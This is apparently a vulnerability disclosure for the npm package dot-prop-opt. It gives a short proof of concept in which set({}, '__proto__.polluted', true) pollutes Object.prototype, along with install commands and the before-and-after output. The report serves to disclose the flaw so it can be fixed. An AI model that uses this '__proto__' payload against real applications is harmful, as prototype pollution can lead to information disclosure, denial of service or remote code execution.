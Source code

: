 # Description

`dot-prop-opt` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { set } = require('dot-prop-opt')

console.log('Before: ' + {}.polluted)
set({}, '__proto__.polluted', true)
console.log('After: ' + {}.polluted)
```
2. Execute the following commands in the terminal:
```bash
npm i dot-prop-opt # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

